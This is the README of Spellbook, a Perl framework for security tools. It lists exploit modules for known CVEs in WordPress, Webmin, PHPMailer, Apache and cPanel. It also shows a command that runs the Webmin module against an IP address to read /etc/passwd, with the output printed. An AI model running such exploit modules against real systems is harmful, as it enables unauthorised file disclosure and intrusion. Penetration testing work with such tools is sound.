 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.6-blue.svg">
    </a>
      <br/>
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/linter.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/zarn.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/security-gate.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/test-on-ubuntu.yml/badge.svg">
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.6
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ ./spellbook.pl --search advisory

Module: Advisory::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Advisory::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================

Module: Advisory::CVE_2016_10045
Description: PHPMailer < 5.2.20 Remote Code Execution PoC 0day Exploit (CVE-2016-10045) (Bypass of the CVE-2016-1033 patch)
=================================================

Module: Advisory::CVE_2021_41773
Description: Exploit path Traversal or RCE in Apache HTTP Server 2.4
=================================================

Module: Advisory::CVE_2023_29489
Description: Exploit for cPanel Reflected XSS - CVE-2023-29489
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Advisory::CVE_2006_3392 --help

Advisory::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Advisory::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

---

### License

This work is licensed under [MIT License.](/LICENSE.md)
